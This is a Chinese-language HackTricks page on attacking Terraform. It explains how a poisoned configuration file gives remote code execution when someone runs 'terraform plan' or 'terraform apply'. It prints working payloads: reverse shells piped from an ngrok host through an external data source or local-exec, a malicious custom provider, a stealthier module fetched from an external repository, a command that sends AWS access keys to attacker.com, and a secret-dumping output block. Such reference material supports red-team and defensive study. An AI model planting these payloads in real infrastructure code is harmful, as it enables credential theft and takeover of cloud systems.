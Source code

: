 # Terraform 安全性

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 HackTricks 中看到您的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFT 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

## 基本信息

HashiCorp Terraform 是一种**基础设施即代码工具**，它允许您在可版本控制、重用和共享的人类可读配置文件中定义**云和本地资源**。然后，您可以使用一致的工作流程来配置和管理您的整个基础设施生命周期。Terraform 可以管理低级组件，如计算、存储和网络资源，以及高级组件，如 DNS 条目和 SaaS 功能。

### Terraform 如何工作？

Terraform 通过应用程序编程接口 (API) 在云平台和其他服务上创建和管理资源。提供者使 Terraform 能够与几乎任何具有可访问 API 的平台或服务一起工作。

![](<../.gitbook/assets/image (33).png>)

HashiCorp 和 Terraform 社区已经编写了**超过 1700 个提供者**来管理数千种不同类型的资源和服务，这个数字还在持续增长。您可以在 [Terraform Registry](https://registry.terraform.io/) 上找到所有公开可用的提供者，包括 Amazon Web Services (AWS)、Azure、Google Cloud Platform (GCP)、Kubernetes、Helm、GitHub、Splunk、DataDog 等等。

Terraform 的核心工作流程包括三个阶段：

* **编写：** 您定义资源，这些资源可能跨越多个云提供商和服务。例如，您可能创建一个配置，以在带有安全组和负载均衡器的虚拟私有云 (VPC) 网络中的虚拟机上部署应用程序。
* **计划：** Terraform 创建一个执行计划，描述基于现有基础设施和您的配置将创建、更新或销毁的基础设施。
* **应用：** 经过批准后，Terraform 按照正确的顺序执行建议的操作，尊重任何资源依赖关系。例如，如果您更新了 VPC 的属性并更改了该 VPC 中的虚拟机数量，Terraform 将在扩展虚拟机之前重新创建 VPC。

![](<../.gitbook/assets/image (81).png>)

### Terraform 企业版

Terraform 企业版允许您在**自托管的 Terraform Cloud 版本**中远程**运行命令**，如 `terraform plan` 或 `terraform apply`。因此，如果您找到了访问该 Terraform 服务器的**API 密钥**，您可以**危害它**。\
更多信息请查看：

{% content-ref url="broken-reference" %}
[损坏的链接](broken-reference)
{% endcontent-ref %}

## Terraform 实验室

只需在您的计算机上安装 terraform。

这里有一个[指南](https://learn.hashicorp.com/tutorials/terraform/install-cli)，这里有[下载 terraform 的最佳方式](https://www.terraform.io/downloads)。

## Terraform 中的 RCE

Terraform **没有暴露网页或网络服务的平台**我们可以枚举，因此，危害 terraform 的唯一方法是**能够添加/修改 terraform 配置文件**。

然而，terraform 是一个**非常敏感的组件**，因为它将拥有**特权访问**不同位置，以便正常工作。

攻击者能够危害运行 terraform 的系统的主要方式是**危害存储 terraform 配置的仓库**，因为它们在某个时刻将被**解释**。

实际上，有一些解决方案在创建 PR 后会**自动执行 terraform 计划/应用**，例如 **Atlantis**：

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

如果您能够危害一个 terraform 文件，当有人执行 `terraform plan` 或 `terraform apply` 时，您可以通过不同的方式执行 RCE。

### Terraform 计划

Terraform 计划是 terraform 中**最常用的命令**，开发人员/使用 terraform 的解决方案一直在调用它，因此**获得 RCE 的最简单方法**是确保您投毒了一个 terraform 配置文件，该文件将在 `terraform plan` 中执行任意命令。

#### 使用外部提供者

Terraform 提供了 [`external` 提供者](https://registry.terraform.io/providers/hashicorp/external/latest/docs)，它提供了一种在 Terraform 和外部程序之间进行接口的方法。您可以使用 `external` 数据源在 `plan` 期间运行任意代码。

在 terraform 配置文件中注入类似以下内容将在执行 `terraform plan` 时执行 rev shell：
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### 使用自定义提供者

任何人都可以编写一个[自定义提供者](https://learn.hashicorp.com/tutorials/terraform/provider-setup)并将其发布到[Terraform Registry](https://registry.terraform.io/)。您也可以尝试从私有注册表中拉取自定义提供者。

就是这样：

* 编写一个运行恶意代码的自定义提供者（如泄露凭证或客户数据）
* 将其发布到 Terraform Registry
* 在功能分支中添加该提供者到 Terraform 代码
* 为功能分支打开一个 PR
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
由于提供者将在 `init` 期间被拉入，并在 `plan` 期间运行一些代码，你拥有了任意代码执行的能力。

你可以在 [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec) 找到一个例子。

#### 使用外部引用

上述两个选项都很有用，但不是非常隐蔽（第二个更隐蔽但比第一个复杂）。你可以通过遵循以下建议，以更**隐蔽的方式**执行这种攻击：

* 与其直接在terraform文件中添加反向 shell，不如**加载包含反向 shell 的外部资源**：
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
您可以在 [https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules](https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules) 找到反向 shell 代码

* 在外部资源中，使用 **ref** 功能在仓库内部的一个分支中隐藏 **terraform 反向 shell 代码**，类似于：`git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform 应用

Terraform apply 将被执行以应用所有更改，您也可以通过注入**恶意的 Terraform 文件**与 [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html) 来滥用它以获得 RCE。\
\*\*\*\*您只需确保像下面这样的有效载荷最终出现在 `main.tf` 文件中：
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
遵循**前一技巧的建议**，使用**外部引用**以更隐秘的方式执行此攻击。

## Secrets Dumps

您可以通过在 terraform 文件中添加如下内容，运行 `terraform apply` 来**转储 terraform 使用的密钥值**：
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## 审计工具

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec 使用静态分析你的 terraform 代码来发现潜在的配置错误。
* [**terascan**](https://github.com/tenable/terrascan): Terrascan 是一个用于基础设施即代码的静态代码分析器。

## 参考资料

* [Atlantis 安全](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为英雄，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>!</strong></summary>

其他支持 HackTricks 的方式：

* 如果你想在 HackTricks 中看到你的**公司广告**或者**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享你的黑客技巧。

</details>
